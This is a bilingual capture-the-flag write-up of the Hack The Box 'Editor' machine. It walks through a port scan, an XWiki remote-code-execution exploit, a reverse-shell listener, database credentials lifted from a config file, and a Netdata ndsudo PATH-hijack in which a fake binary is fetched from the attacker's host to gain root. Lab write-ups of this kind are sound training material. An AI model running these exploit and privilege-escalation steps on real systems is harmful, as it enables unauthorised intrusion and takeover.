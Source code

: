 # Editor HTB - Writeup

## Escaneamento de portas

``` bash
./malwaricon.sh
Enter domain: 10.10.11.80
...
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
8080/tcp open  http    Jetty 10.0.20
9999/tcp open  abyss?
```

...

## Exploração do CVE-2025-24893 (XWiki RCE)

Foi encontrado o CVE: https://github.com/Artemir7/CVE-2025-24893-EXP

Execução bem-sucedida:

``` bash
python CVE-2025-24893.py -u http://wiki.editor.htb -c whoami
[+] Command Output:
xwiki
```

Reverse shell enviada:

``` bash
nc -lvnp 4444
```

## Credenciais do banco de dados

No arquivo `/etc/wiki/hibernate.cfg.xml` foram encontradas credenciais:

    username: xwiki
    password: theEd1t0rTeam99

## Acesso inicial como Oliver

``` bash
oliver@editor:~$ cat user.txt
2739c3049d79c4f20eff7db04ea331f7
```

## Escalada de privilégios via Netdata

A porta 19999 estava rodando **Netdata**. Após abrir um túnel SSH e
acessar a interface web, foi identificado que a versão era vulnerável ao
CVE-2024-32019.

Exploração com binário falso `nvme`:

``` bash
wget http://10.10.15.14:5000/nvme
chmod +x nvme
```

------------------------------------------------------------------------

------------------------------------------------------------------------

# Editor HTB - Writeup (English)

## Port Scan

``` bash
nmap -sV 10.10.11.80
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
8080/tcp open  http    Jetty 10.0.20
9999/tcp open  abyss?
```

## Exploitation of CVE-2025-24893 (XWiki RCE)

Found CVE: https://github.com/Artemir7/CVE-2025-24893-EXP

Successful execution:

``` bash
python CVE-2025-24893.py -u http://wiki.editor.htb -c whoami
[+] Command Output:
xwiki
```

Reverse shell payload:

``` bash
nc -lvnp 4444
```

## Database credentials

Found in `/etc/wiki/hibernate.cfg.xml`:

    username: xwiki
    password: theEd1t0rTeam99

## Initial access as Oliver

``` bash
oliver@editor:~$ cat user.txt
2739c3049d79c4f20eff7db04ea331f7
```

## Privilege Escalation via Netdata

Running `sudo -l` showed that Oliver does not have permission to run any command as root 

After inspecting local ports, I noticed that port `19999` is used by **Netdata**, a monitoring tool. I created an SSH tunnel:

``` bash
ssh -L 19999:127.0.0.1:19999 oliver@10.10.11.80
```
The fist thing i saw after enter to the web was

The
 moment I opened the Netdata web page, a big warning showed up saying 
the version was outdated — a great hint that it might be vulnerable.

https://github.com/netdata/netdata/security/advisories/GHSA-pmhq-4cxq-wj93?source=post_page-----2128149b1929---------------------------------------

This vulnerability affects the `ndsudo` binary that ships with Netdata. It allows a **Local Privilege Escalation (LPE)** by exploiting an insecure `PATH` environment variable.

We can create a fake `nvme` binary, which gets executed instead of the real one when `ndsudo` tries to call `nvme-list`.

This operation is clearly demonstrated in the PoC by [AliElKhatteb](https://github.com/AliElKhatteb):
------------------------------------------------------------------------
```
󰣇 ~/Documentos/editorhtb ❯ python3 -m http.server 5000
Serving HTTP on 0.0.0.0 port 5000 (http://0.0.0.0:5000/) ...
10.10.11.80 - - [10/Aug/2025 21:04:14] "GET /nvme HTTP/1.1" 200 -
```
```
oliver@editor:~$ wget http://10.10.15.14:5000/nvme
--2025-08-11 00:03:42--  http://10.10.15.14:5000/nvme
Connecting to 10.10.15.14:5000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 782800 (764K) [application/octet-stream]
Saving to: ‘nvme’

nvme                             100%[=========================================================>] 764.45K   394KB/s    in 1.9s    

2025-08-11 00:03:45 (394 KB/s) - ‘nvme’ saved [782800/782800]
```
```
oliver@editor:~$ chmod +x /tmp/nvme
oliver@editor:~$ export PATH=/tmp:$PATH
oliver@editor:~$ /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list

root@editor:/home/oliver# id
uid=0(root) gid=0(root) groups=0(root),999(netdata),1000(oliver)

root@editor:/home/oliver# cat /root/root.txt
99b89e8afa5...
root@editor:/home/oliver#

```

